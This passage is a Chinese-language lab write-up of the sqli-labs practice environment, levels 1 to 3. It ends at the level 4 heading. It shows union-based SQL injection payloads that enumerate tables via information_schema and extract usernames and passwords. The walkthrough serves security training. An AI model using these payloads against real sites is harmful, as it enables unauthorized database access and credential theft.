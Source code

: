 # sqli-labs

打开网页，似乎有很多的题目，从第一题开始

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/K)GB)Y$K0]X7S9AW)_AVDY3.png?raw=true">

## Page-1

### Less-1

打开网页，什么都没有，屏幕中间提示我们输入id作为参数

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/N716C{K$9HYE_]S[R$(0(4Q.png?raw=true">

在url栏添加 `?id=1` ，页面变化

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/M]2XK[PCACJ[P~Q9}A2M$$0.png?raw=true">

下面判断注入点，输入 `?id=1 and 1=1` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/Q9B(F@X0J}BKG0TNMW86(HN.png?raw=true">

输入 `?id=1 and 1=2` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/YXK98G(2@54IV80[LNOV7`C.png?raw=true">

输入 `?id=1'` 报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/E89DYY@949HQLD%4$NY[1NX.png?raw=true">

输入 `?id=1' %23` 成功，确定存在注入点，字符型注入，单引号闭合

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/0UK$8ZD7AI~U2L7EJTT`@LW.png?raw=true">

*注：%23实际上是#的url编码*

然后判断字段数，屏幕上显示两个字段，我们从2个字段开始尝试，成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/L$ZD4__NZTM4I$AJ1D@PLNQ.png?raw=true">

3个字段成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/[2AL2(S$XP6X1FT}03`CK]I.png?raw=true">

4个字段报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/{X_H{439@%T_QZP7XFF{D}A.png?raw=true">

然后开始判断回显点

```sql
?id=0' union select 1,2,3 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/B95A8QVSA0N@Q7M%7{495~7.png?raw=true">

确定回显点为2,3，获取数据库名

```sql
?id=0' union select 1,version(),database() %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/H9W_GS}_22[SWJN5R23{(WU.png?raw=true">

获取到数据库名为Security，查看该数据库下所有表名

```sql
?id=0' union select 1,version(),group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/6ZC4H5_J_@R8@[F$P7A3~1N.png?raw=true">

注意到存在一个表名为users，查看其字段名

```sql
?id=0' union select 1,version(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/@4D)`]ZX3]L$8UBQ2O%WMAX.png?raw=true">

发现敏感词汇 `username` 和 `password` ，获取其中的值，中间用id隔开

```sql
?id=0' union select 1,version(),group_concat(username,id,password) from security.users %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/H90A2JO{XJOXV6ONEHAK~_1.png?raw=true">

获取到管理员账号密码，注入成功

### Less-2

封面和Less-1一样，先开始判断注入点，输入 `?id=1 and 1=1` ，成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/`5$2$@SA}Y8N1SDBUIWPCL0.png?raw=true">

输入 `?id=1 and 1=2` 无结果

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/7PMI5L94B44DS0F)073A78T.png?raw=true">

输入 `?id=1'` 报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/ADPA9(ET3R5O@U2FQM3{{U9.png?raw=true">

输入 `?id=1' %23` 报错，确定存在注入点，数字型注入

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/VEJ~XGGIZ_B{W)X)8PJ8}1P.png?raw=true">

下面过程和Less-1一样，省略

*注：此题注入语句为 `?id=0 <SQL Injection Statement>`* 

### Less-3

开始判断注入点，下面直接公布结论

- `?id=1 and 1=1` 成功

- `?id=1 and 1=2` 成功

- `?id=1'` 报错

- `?id=1' %23` 报错

这时仔细观察输入 `?id=1'` 时的报错信息，与Less-1相比，多了一个括号

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/DZ%DWK0PIHH}MP]N)8_FKK9.png?raw=true">

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/CWIE@{I)CMFD(6LH]SLJMU0.png?raw=true">

因此在构建语句的时候，也需要把括号考虑在内，输入 `?id=1') %23` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/[DZI}XV{9$~WU[A(2]025BX.png?raw=true">

下面过程和Less-1一样，省略

*注：此题注入语句为 `?id=0') <SQL Injection Statement> %23`* 

### Less-4

